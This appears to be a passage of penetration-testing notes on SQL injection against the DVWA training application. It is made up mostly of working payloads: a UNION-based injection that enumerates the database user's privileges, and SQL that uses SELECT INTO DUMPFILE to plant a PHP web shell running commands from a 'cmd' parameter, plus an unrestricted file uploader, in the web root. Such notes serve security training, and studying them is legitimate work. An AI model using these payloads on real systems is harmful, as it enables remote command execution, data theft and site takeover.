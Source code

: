 ```sql
' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES WHERE PRIVILEGE_TYPE LIKE 'SELECT' OR PRIVILEGE_TYPE LIKE 'INSERT' OR PRIVILEGE_TYPE LIKE 'UPDATE' OR PRIVILEGE_TYPE LIKE 'DELETE' OR PRIVILEGE_TYPE LIKE 'DROP' AND GRANTEE LIKE "'dvwa'%"#
```

##### 4.2.5.2.1 - Simple Webshell

TODO: Replicate the methods from this video https://www.youtube.com/watch?v=FjgKtBAiLKQ

```sql
CREATE TABLE `dvwa`.`user_input`(
`column_1` VARCHAR(1000) NOT NULL
) ENGINE = MYISAM;

INSERT INTO user_input values('<?php $cmd=$_GET["cmd"];system($cmd);?>')

SELECT * INTO DUMPFILE '/var/www/html/dvwa/shell.php' FROM user_input;
```

##### 4.2.5.2.2 - Uploader

```sql
CREATE TABLE `dvwa`.`user_upload`(
`column_1` VARCHAR(1000) NOT NULL
) ENGINE = MYISAM;

INSERT INTO user_upload values('<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>File Upload</title>
    </head>
    <body>
        <h2>File Upload</h2>
        <form action="<?php echo $_SERVER["PHP_SELF"]; ?>" method="POST" enctype="multipart/form-data">
            <input type="file" name="fileToUpload" id="fileToUpload">
            <input type="submit" value="Upload" name="submit">
        </form>

        <?php
        if (isset($_POST["submit"])) {
            if (!empty($_FILES["fileToUpload"]["name"])) {
                $targetDir = "./"; // Upload to the same directory as the PHP script
                $targetFile = $targetDir . basename($_FILES["fileToUpload"]["name"]);

                if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $targetFile)) {
                    echo "File uploaded successfully.";
                } else {
                    echo "Sorry, there was an error uploading your file.";
                }
            } else {
                echo "Please choose a file to upload.";
            }
        }
        ?>
    </body>
</html>')

SELECT * INTO DUMPFILE '/var/www/html/dvwa/uploader.php' FROM user_upload;
```

---